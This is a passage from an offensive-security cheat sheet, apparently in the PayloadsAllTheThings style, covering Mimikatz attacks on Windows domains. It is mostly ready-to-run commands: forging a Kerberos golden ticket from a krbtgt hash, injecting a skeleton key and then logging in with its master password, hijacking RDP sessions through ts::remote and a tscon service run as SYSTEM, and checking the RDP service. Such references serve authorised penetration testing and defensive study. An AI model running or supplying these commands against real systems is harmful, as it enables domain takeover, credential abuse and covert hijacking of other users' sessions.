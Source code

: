 ```powershell
.\mimikatz "kerberos::golden /admin:DarthVader /domain:rd.lab.adsecurity.org /id:9999 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit
```

## Skeleton key

```powershell
privilege::debug
misc::skeleton
# map the share
net use p: \\WIN-PTELU2U07KG\admin$ /user:john mimikatz
# login as someone
rdesktop 10.0.0.2:3389 -u test -p mimikatz -d pentestlab
```

## RDP Session Takeover

Use `ts::multirdp` to patch the RDP service to allow more than two users.

- Enable privileges
    
    ```powershell
    privilege::debug 
    token::elevate 
    ```
    
- List RDP sessions
    
    ```powershell
    ts::sessions
    ```
    
- Hijack session
    
    ```powershell
    ts::remote /id:2 
    ```
    

Run `tscon.exe` as the SYSTEM user, you can connect to any session without a password.

```powershell
# get the Session ID you want to hijack
query user
create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#55"
net start sesshijack
```

## RDP Passwords

Verify if the service is running:

```ps1
sc queryex termservice
tasklist /M:rdpcorets.dll
netstat -nob | Select-String TermService -Context 1
```
